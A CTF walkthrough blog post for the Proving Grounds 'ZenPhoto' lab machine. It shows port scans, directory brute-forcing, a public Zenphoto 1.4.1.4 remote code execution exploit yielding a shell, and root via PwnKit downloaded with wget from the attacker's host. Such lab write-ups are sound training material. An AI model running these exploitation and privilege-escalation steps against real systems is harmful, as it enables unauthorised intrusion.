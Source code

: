 ```yaml
---
layout: post
title: Proving Grounds - ZenPhoto
subtitle: CTF Walkthrough
cover-img: /assets/img/zenphoto/zen.jpeg
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```


Intermediate OSCP like box found in Proving grounds. Lets go!

### Enumeration

```
└─$ rustscan -a 192.168.209.41 -- -sC -sV | tee nmap 

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     syn-ack CUPS 1.4
|_http-title: 403 Forbidden
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.4
80/tcp   open  http    syn-ack Apache httpd 2.2.14 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.14 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   syn-ack MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First of all I checked port 23 as according to NMAP scan it's running CUPS server which was interesting. But I did not find any foothold so moved to port 80.

Feroxbuster revealed a directory - **test**

```
└─$ feroxbuster --url http://192.168.209.41/ --no-recursion               

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        4l        5w       75c http://192.168.209.41/
200      GET        4l        5w       75c http://192.168.209.41/index
301      GET        9l       28w      315c http://192.168.209.41/test => http://192.168.209.41/test/
```

![alt text](/assets/img/zenphoto/1.png)

Inspector-gadgeting source code revealed that this is zenphoto 1.4.1.4

![alt text](/assets/img/zenphoto/2.png)


Doing a quick search I found an [exploit](https://www.exploit-db.com/exploits/18083) 

### Exploitation

Running previously mentioned exploit I got a shell and a local flag.

```
└─$ php 18083.php 192.168.209.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# whoami
www-data

zenphoto-shell# ls /home
local.txt
```

Getting stable shell.

![alt text](/assets/img/zenphoto/3.png)


### Privilege Escalation

Transferred **linpeas.sh** using SimpleHttpServer and Linux Exploit Suggested quite few exploits.

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2010-3904] rds

   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: highly probable
   Tags: debian=6.0{kernel:2.6.(31|32|34|35)-(1|trunk)-amd64},ubuntu=10.10|9.10,fedora=13{kernel:2.6.33.3-85.fc13.i686.PAE},[ ubuntu=10.04{kernel:2.6.32-(21|24)-generic} ]
   Download URL: http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

```

I have attempted Pwnkit exploit as I already had the script on my machine.

```
www-data@offsecsrv:/tmp$ wget 192.168.49.209/pwnkit.c 
wget 192.168.49.209/pwnkit.c
--2022-11-19 18:59:28--  http://192.168.49.209/pwnkit.c
Connecting to 192.168.49.209:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1267 (1.2K) [text/x-csrc]
Saving to: `pwnkit.c'

100%[======================================>] 1,267       --.-K/s   in 0.04s   

2022-11-19 18:59:28 (31.0 KB/s) - `pwnkit.c' saved [1267/1267]

www-data@offsecsrv:/tmp$ gcc pwnkit.c -o pwn
gcc pwnkit.c -o pwn
www-data@offsecsrv:/tmp$ chmod +x pwn
chmod +x pwn
www-data@offsecsrv:/tmp$ ./pwn
./pwn
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
mysqlpass  proof.txt
```

And that's how I got the root.